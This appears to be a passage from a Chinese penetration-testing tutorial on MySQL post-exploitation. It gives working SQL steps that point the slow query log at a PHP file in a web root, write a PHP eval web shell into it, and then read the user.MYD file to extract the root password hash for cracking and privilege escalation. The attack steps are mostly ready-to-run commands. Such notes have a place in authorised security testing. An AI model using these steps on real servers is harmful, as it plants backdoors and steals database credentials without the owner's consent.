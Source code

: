 即可写入shell



#### 3.2 慢查询写 shell



```sql
show variables like '%slow%';
```



重新设置路径：

```sql
set GLOBAL slow_query_log_file='C:/phpstudy/PHPTutorial/WWW/slow.php';
```

开启慢查询日志：

```sql
set GLOBAL slow_query_log=on;
```

执行写入日志：

```sql
select '<?php eval($_POST["soap"]);?>' from mysql.db where sleep(10);
```

![image-20210321161304678](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210321161304678.png)



### 4. 低权限读user.MYD提权

读user.MYD的目的是为了能够提取到root用户的hash，通过破解即可使用root用户登录，进而提权。

首先需要定位user.MYD文件路径，我们可以先查询mysql路径。

```sql
select @@basedir;
```

user.MYD文件存储在@@basedir\data\mysql\user.MYD

依次执行

```sql
create table ttt(ddd text);
load data local infile 'C:\\phpStudy\\MySQL\\data\\mysql\\user.MYD' into table ttt fields terminated by '' LINES TERMINATED BY '\0';
select * from ttt;
```

但是读取的不全，phpmyadmin中没法正常显示。

渗透测试场景中，如果能够导出user.MYD文件，就可以进行hash 的获取。

具体可以参考

[获取MySQL中user.MYD中hash技巧](http://www.dengb.com/wzaq/1017388.html)
